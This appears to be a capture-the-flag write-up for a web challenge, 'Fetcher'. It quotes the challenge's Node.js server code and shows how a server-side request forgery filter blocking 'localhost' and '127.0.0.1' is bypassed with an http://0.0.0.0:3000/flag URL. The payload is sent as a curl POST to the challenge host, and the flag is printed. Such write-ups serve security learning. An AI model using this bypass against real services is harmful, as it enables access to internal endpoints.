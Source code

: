 # Fetcher

Web challenge, ~110 solves

We are given a javascript source file (See `app.js`) for this challenge. Looking at the server code, there are some interesting things:

```js
app.get('/flag', (req, res) => {
    if (req.ip !== '::ffff:127.0.0.1' && req.ip !== '::1' && req.ip !== '127.0.0.1')
        return res.send('bad ip');

    res.send(`hey myself! here's your flag: ${flag}`);
});```

Looks like our goal is to get past this check and get the flag. The request must be made from the server itself.

The server also has a route with some checks, which when passed causes the server to make a request and show us the results:

```js
app.post('/fetch', async (req, res) => {
    const url = req.body.url;

    if (!/^https?:\/\//.test(url))
        return res.send('invalid url');

    try {
        const checkURL = new URL(url);

        if (checkURL.host.includes('localhost') || checkURL.host.includes('127.0.0.1'))
            return res.send('invalid url');
    } catch (e) {
        return res.send('invalid url');
    }

    const r = await fetch(url, { redirect: 'manual' });

    const fetched = await r.text();

    res.send(fetched);
});
```

So it looks at the url parameter, ensures the host is not localhost or the ipv4 representation of localhost, and then fetches the page.

The challenge here is to bypass the check on the fetch route, so after the IP address we give is used to create a Url object, it needs to not resolve in any way to localhost.

An additional constaint is that the server cannot reach the internet, so you cannot use any kind of redirect to take you there, you must supply either a hostname or an ip address that refers to the server.

The way I found to do this is to use the default IP 0.0.0.0, which indicates that the service can be on any of the local interfances. To confirm that this behavior suits our use case, one can start a python web server with `python3 -m http.server` and navigate to `0.0.0.0:8000` using any http client.

We can find the port the server is running on in the source code:

```js
app.listen(3000, () => {
    console.log('Server is running on port 3000');
});
```

Thus we can craft our final payload and get the flag:

```
curl -H "Content-type: application/x-www-form-urlencoded" \
     -d "url=http://0.0.0.0:3000/flag" \
     -X POST \
     https://fetcher-957514a8074144c4.tjc.tf/
```

```
tjctf{h3ll0_m3_h3e_h3e_d699bdcd} 
```

